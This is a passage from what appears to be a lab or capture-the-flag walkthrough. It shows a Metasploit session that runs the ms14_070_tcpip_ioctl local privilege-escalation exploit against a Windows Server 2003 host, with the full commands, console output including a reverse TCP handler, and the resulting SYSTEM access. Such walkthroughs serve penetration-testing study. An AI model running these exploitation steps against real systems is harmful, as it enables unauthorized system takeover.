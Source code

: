 So now we've got a number to try.  All that can really be done now is to go through the list meticulously and try every exploit.  Lets pick one and see how it fares.

```bash
msf post(migrate) > use exploit/windows/local/ms14_070_tcpip_ioctl 
msf exploit(ms14_070_tcpip_ioctl) > show options 
  
Module options (exploit/windows/local/ms14_070_tcpip_ioctl): 
  
   Name     Current Setting  Required  Description 
   ----     ---------------  --------  ----------- 
   SESSION                   yes       The session to run this module on. 
  
  
Exploit target: 
  
   Id  Name 
   --  ---- 
   0   Windows Server 2003 SP2 
  
  
msf exploit(ms14_070_tcpip_ioctl) > set SESSION 1
SESSION => 1
msf exploit(ms14_070_tcpip_ioctl) > exploit 
  
[*] Started reverse TCP handler on 192.168.161.134:4444  
[*] Storing the shellcode in memory... 
[*] Triggering the vulnerability... 
[*] Checking privileges after exploitation... 
[+] Exploitation successful! 
[*] Exploit completed, but no session was created.
```

This one claimed to be succesful but we didn't get a shell back which can indicate failure, but not always.  However, we forgot to set our local IP address to the correct subnet so it looks like that may be why it didn't give us back a shell.  Lets go back to our session to see if it's managed to elevate us.

```bash
msf exploit(ms14_070_tcpip_ioctl) > sessions 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

There we go!  SYSTEM level privileges using metasploit. 
